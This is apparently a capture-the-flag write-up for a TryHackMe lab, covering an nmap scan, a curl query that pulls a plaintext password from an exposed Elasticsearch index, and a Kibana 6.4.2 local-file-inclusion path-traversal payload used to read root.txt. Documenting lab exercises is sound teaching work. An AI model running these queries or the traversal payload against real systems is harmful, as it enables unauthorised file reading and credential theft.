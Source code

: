# Elastic search database

-----

## nmap results 

```c
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-15 03:06 EDT
Nmap scan report for 10.10.94.124 (10.10.94.124)
Host is up (0.26s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 0a:ee:6d:36:10:72:ce:f0:ef:40:9e:63:52:a9:86:44 (RSA)
|   256 11:6e:8f:7f:15:66:e3:03:b1:c4:55:f8:e7:bb:59:23 (ECDSA)
|_  256 b3:12:7a:7f:ac:89:72:c9:25:88:96:20:ad:c7:5b:4a (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.7.4)
|_http-server-header: SimpleHTTP/0.6 Python/3.7.4
|_http-title: Directory listing for /
9200/tcp open  http    Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

------

--> let's goto port `8000` 

--> and i found this logs file 

![Pasted image 20210815035155.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815035155.png)

--> i don't know what it is so let's goto next port which is `9200` for elasticsearch database 

--> we have hint 

![Pasted image 20210815035305.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815035305.png)

--> so i googled it and found the curl command to search for `password` string 

```c
curl -X GET "<ip>:9200_search?q=password&pretty"
```

--> ans we got the password !

![Pasted image 20210815035459.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815035459.png)

```
hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf
```

----

## kibana

--> now we have to read the `root.txt` file so there is mentioned `kibana` in question 

![Pasted image 20210815035602.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815035602.png)

--> so i searched for default port of kibana and i found port `5601`

--> let's run nmap for this port 

![Pasted image 20210815035925.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815035925.png)

--> and we can see `5601` port is open and it's running `kabana` 

--> so Let's goto that port and let's see what we get

--> and we got this beutiful interface 

![Pasted image 20210815040047.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815040047.png)

----

## LFI

--> i found the version of kibana which was `6.4.2` 

--> after that i search on google for `kibana 6.4.2 exploit-db` and found LFI exploit 

![Pasted image 20210815040533.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815040533.png)

--> payload : 

```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
```

--> so Let's add this and see what happens

--> nothing happened on webpage but we have the log files so let's download that and search for `root.txt`

![Pasted image 20210815040801.png](https://github.com/shivam1317/TryHackMe-Advent-of-cyber-2019-writeup/blob/main/Advent-of-cyber-2019/Day-24/attachments/Pasted%20image%2020210815040801.png)

--> and i found one error message in  the logs 

```
someELKfun is not defined\n    at Object.<anonymous> (/root.txt:1:6)\n
```

--> so `someELKfun` should be the answer 

--> and it was the right answer !

-----
